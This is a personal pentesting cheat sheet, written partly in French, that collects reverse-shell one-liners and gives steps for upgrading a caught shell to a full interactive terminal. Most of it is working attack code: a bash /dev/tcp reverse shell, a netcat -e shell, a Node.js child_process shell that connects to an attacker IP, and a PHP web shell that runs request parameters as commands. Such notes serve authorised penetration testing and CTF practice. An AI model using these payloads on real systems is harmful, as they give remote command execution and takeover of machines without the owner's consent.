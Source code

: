 ```yaml
---
description: I'll add way to get shells as i'll use them
---
```


# Get Shell

* Those lines are to use on the target, on the attacker we'll use `nc -lvpn <port>` to receive the connection.
* Check [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for more example

## Bash

```bash
# on target
bash -i >& /dev/tcp/<ip>/<port> 0>&1
# des fois il faut l'entourer ainsi
bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'
```

* `/dev/tcp` est fournit directement par bash et n'existe que pour les redirections
* `-i` permet de créer un shell interactif
* `>&` Redirige STDOUT et STDERR du shell vers la connection
* `0>&1` Redirige STDIN \(de la co\) vers STDOUT \(de la co je pense\)
* `bash -c` permet de s'assurer que c'est bash et non un autre shell de la machine qui exécutera la commande, c'est nécessaire car /dev/tcp n'est fournit que par lui

## PHP

```php
<?php
    system($_REQUEST['cmd']);
?>
```

## Netcat

`nc -e /bin/bash <host> <port>`

## Node

```javascript
(function(){
    var cp = require("child_process");
    var sh = cp.spawn("/bin/sh", []);
    var net = require("net");
    var client = new net.Socket();
    client.connect(my_port, "my_ip", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js app from crashing
})();
```

## Metasploit

* Un shell donné par metasploit ne sera pas forcément persistant, aka tu peux utiliser que des 1 liners parce que l'état n'est pas conservé \(genre un cd te déplacera pas\)

## Upgrade your shell

* First, simply try to execute `/bin/bash`, it has auto-completion & stuff like that
* If it's not enough, do as follow :
* Les shells qu'on récupère ainsi sont rarement pratique, ils réagissent mal au tab, n'ont pas d'auto-completion, se ferme avec CTRL-C, etc.
* Pour récupérer un vrai shell. suivre ces étapes : 
  * Sur la victime, spawn un shell via python \(testé avec python3 si le 2 n'est pas dispo\)`python -c 'import pty; pty.spawn("/bin/bash")'`
  * Sur l'attaquant, check notre type de terminal `echo $TERM`
  * Sur la victime, export ces 2 var : `export TERM=...` & `export SHELL=/bin/bash`
  * Ctrl-z sur la victime
  * Ca nous remets sur l'attaquant, check les diffs du terminal avec `stty size`
  * Lancer \(toujours sur l'attaquant\) `stty raw -echo;fg`
  * Taper `reset`
  * Taper `stty rows ... columns ...`

